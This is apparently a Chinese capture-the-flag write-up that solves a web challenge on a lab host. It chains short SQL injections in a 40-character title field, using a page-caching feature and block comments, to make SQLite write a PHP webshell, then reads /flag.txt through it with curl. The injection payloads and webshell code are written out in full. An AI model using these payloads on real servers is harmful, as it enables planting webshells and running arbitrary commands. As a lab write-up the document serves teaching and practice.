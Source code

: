 解题:

上一题 cache.php 里面的源码最后写了，提交的参数 access 的值必须是上一题 flag 的 md5，浏览器打开 cache.php?access=f4fa5dc42fd0b12a098fcc218059e061 显示的是一个很简单的表单，表单提交了两个参数，URI 和标题，在 cache.php 里面对这两个参数严格检查，比如 URI 参数前面必须是 http://开头，服务器必须是本地，然后这个 URI 必须真实存在，不能是 404.

标题被限制在 40 字符以内，但是不会过滤引号，似乎可以被注入。

我们尝试在标题里提交 /* ,返回了错误信息:

```
near "/*', '59ab7c9e3917a154ff56a43d08a262ab','http%3A%2F%2F172.16.1.80%2Findex.php', '...', datetime('now'))": syntax error 
```

熟悉的 SQL 显错注入,根据错误信息，后端数据库似乎是 SQLite，通过查看 lib/caching.php 的源码我们可以确认这一点，通过源码我们还可以看出，URI 所指向的页面内容被直接存进了数据库中。

考虑到 40 个字符的限制不能进行任何有利用价值的 SQL 注入，我们需要找到一个可以注入长字符串的方法，页面内容输出缓存的功能现在派上用场了。

幸运的是，我们可以控制并且注入没转义过的单引号到缓存页面，并且把缓存页面自己缓存了，把在标题中的几个较短的注入语句拼接在一起，一个完整的注入语句就能在缓存页面被存入数据库的时候执行。

这里有个很好用的 SQLite 注入 cheat sheet，可以直接通过注入拿 shell!

http://atta.cked.me/home/sqlite3injectioncheatsheet

我们的目标是利用这段注入语句拿到 shell:

```
',0); ATTACH DATABASE 'a.php' AS a; CREATE TABLE a.b (c text); INSERT INTO a.b VALUES ('<? system($_GET[''cmd'']); ?>');/* 
```

我们如何用 40 个字符的长度注入 122 字符的 SQL 语句? SQL 块注释!

这需要一些额外的转义并且把 php 的拼接指令'||'分开：

```
'',0);ATTACH DATABASE ''a.php'' AS a;/*
*/CREATE TABLE a.b (c text);INSERT /*
*/INTO a.b VALUES(''<? system($''||/*
*/''_GET[''''cmd'''']); ?>'');/* 
```

当这些标题一个个出现在缓存页面中的时候，我们把缓存页面给缓存了，我们的注入语句就被执行了，并且生成了 webshell a.php

我们现在就可以在服务器上执行任意指令了! 比如 cat /flag.txt

```
# > curl http://172.16.1.80/a.php?cmd=cat+/flag.txt 
```

CFlag: TryingCrampFibrous963

Web 篇完结。

版权声明：未经授权禁止转载 [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志
